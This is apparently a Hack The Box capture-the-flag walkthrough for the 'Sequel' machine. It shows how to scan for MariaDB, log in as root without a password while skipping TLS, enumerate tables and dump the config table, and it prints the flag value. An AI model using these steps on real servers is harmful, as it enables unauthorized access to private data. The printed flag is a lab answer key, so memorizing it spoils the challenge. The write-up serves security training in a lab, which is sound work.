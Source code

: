 ```yaml
---
title: "Navigating MariaDB on HTB’s ‘Sequel’ Box to Retrieve the Flag"
published: false
tags: [hackthebox, mysql, mariadb, pentesting, tutorial]
---
```


## Introduction

In this guide, we’ll connect directly to the MariaDB instance on Hack The Box’s **Sequel** machine, enumerate its databases, tables, and extract the flag.

**You’ll learn to:**
- Discover database services with `nmap`  
- Authenticate to MariaDB, including dealing with TLS issues  
- List databases and tables with SQL commands  
- Query tables to retrieve sensitive data (the flag)  

## Prerequisites

- Kali Linux (or any distro with `mysql-client`)  
- Active HTB VPN connection  

---

## 1. Scan for MySQL/MariaDB Service

Identify open database port:

```bash
nmap -sC -sV 10.129.28.113 -oN nmap-3306.txt
```

<details>
<summary>Output snippet</summary>

```text
3306/tcp open  mysql?  MariaDB 10.3.27
```
</details>

---

## 2. Connect to the Database

Bypass TLS requirement in the MariaDB client:

```bash
mysql --ssl -h 10.129.28.113 -u root --skip-ssl
```

---

## 3. Enumerate Databases & Tables

List available databases:

```sql
SHOW DATABASES;
```

Select the target database:

```sql
USE htb;
```

List tables:

```sql
SHOW TABLES;
```

---

## 4. Retrieve the Flag

Inspect the `config` table for the flag:

```sql
SELECT * FROM config;
```

The `value` column for `name = 'flag'` contains:

```
7b4bec00d1a39e3dd4e021ec3d915da8
```

---

## 5. Automation Script

Automate enumeration with `scripts/enum-mysql.sh`:

```bash
bash scripts/enum-mysql.sh 10.129.28.113
```

---

## 6. Lessons Learned

- Direct database access can bypass web app filters.  
- MariaDB often enforces TLS by default—be prepared to adjust client flags.  
- Standard SQL commands (`SHOW DATABASES`, `SHOW TABLES`) quickly reveal sensitive tables.  

---

🔗 **Full tutorial & repo:** https://github.com/keyfive5/obsidiansignal-htb-sequel  
